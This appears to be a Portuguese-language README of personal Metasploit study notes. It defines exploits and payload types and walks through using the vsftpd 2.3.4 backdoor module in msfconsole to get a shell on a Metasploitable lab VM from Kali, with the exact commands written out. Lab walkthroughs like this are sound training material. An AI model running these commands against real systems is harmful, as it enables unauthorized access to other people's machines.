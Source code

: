 # FRAMEWORK METASPLOIT

**Metasploit** é uma plataforma de segurança cibernética usada principalmente para realizar testes de penetração e avaliações de segurança em sistemas de computadores e redes.  
Ele fornece uma coleção de ferramentas e exploits que permitem que profissionais de segurança identifiquem, explorem e documentem vulnerabilidades em sistemas-alvo.  
Um **exploit** é um programa, código ou técnica usado para aproveitar uma vulnerabilidade ou falha de segurança em um sistema, software ou rede.  
O objetivo principal de um exploit é explorar uma falha para realizar ataque.  


**Payload** é um código ou programa malicioso que é entregue e executado após a exploração de uma vulnerabilidade em um sistema  
- *single* = payload completo que realiza todas as acções (conexão inicial e ataque), sem precisar de etapas adicionais
- *stager* = payload pequeno que estabelece apenas a conexão inicial entre o atacante e o alvo
- *stage* = o payload que contém as ações do atacante, e pode ser carregado após o stager estabelecer a comunicação.  
**Meterpreter**, é um payload que funciona por injeção dll, é uma ferramenta “pós invasão”, para testes de penetração e ataques éticos.

  
Para realização dos estudos, utilizei o **mfsconsole**
- Interface de linha de comando do Metasploit
- Permite a execução de exploit, payloads, post-exploration e muito mais

Abaixo, todos os casos de estudo:
- EXPLORANDO FALHAS NO FTP
- ATAQUES DOS NO WINDOWS RDP
- EXPLORANDO FALHAS NO SSH
- ADICIONANDO BACKDOOR EM UM EXECUTÁVEL




## EXPLORANDO FALHAS NO FTP
Neste exemplo, iremos explorar uma falha na versão 2.3.4 do vsftpd que introduz uma backdoor no servidor FTP.  
Iremos utilizar o Metasploitable como alvo, e o Kali como origem do ataque.  
Estou utilizando os dois sistemas em máquinas virtuais.  



Primeiramente criei um arquivo *teste.txt* no Metasploitable para que possamos manipulá-lo após a invasão.  
No Kali, abriremos o console, entraremos no modo `sudo su` seguiremos os seguintes passos:  
`msfconsole` = abre o console do metasploit
`search vsftpd`  
`info exploit/unix/ftp/vsftpd_234_hackdoor`  
`use exploit/unix/ftp/vsftpd_234_hackdoor` = selecionamos o exploit para uso  
`show options` = mostra os requerimentos que precisamos definir no exploit  
`set rhosts <ip do metaspoitable>` = ip do nosso alvo  
`show payloads` = lista os payloads disponíveis  
`set payload payload/cmd/unix/interact` = este payload permite que o atacante tenha um controle direto sobre a máquina invadida após o exploit  
`show options` = para ver se os requerimentos estão definidos  
`exploit`   
`ls` = irá mostrar o diretório que estamos.  
`ip addr` = vai mostra o ip da maquina que invadimos.  
E assim, estamos com acesso ao alvo, via terminal.  
